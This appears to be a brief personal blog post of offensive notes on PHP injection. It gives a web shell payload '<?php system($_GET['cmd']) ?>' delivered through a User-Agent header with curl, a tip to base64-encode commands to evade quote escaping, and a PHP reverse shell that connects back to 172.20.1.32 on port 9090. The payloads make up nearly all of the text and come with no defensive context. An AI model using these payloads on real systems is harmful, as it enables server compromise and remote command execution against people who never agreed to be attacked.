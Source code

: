 ```yaml
---
layout: post
author: redle
---
```



PHP Injection:
> Use User Agent to avoid scape ' or "
>> curl -K file
>>> file:
>>> user-agent = "<?php system($_GET['cmd']) ?>"

> Base64 avoiding special chars:
>>> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

PHP Shell:
> <?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
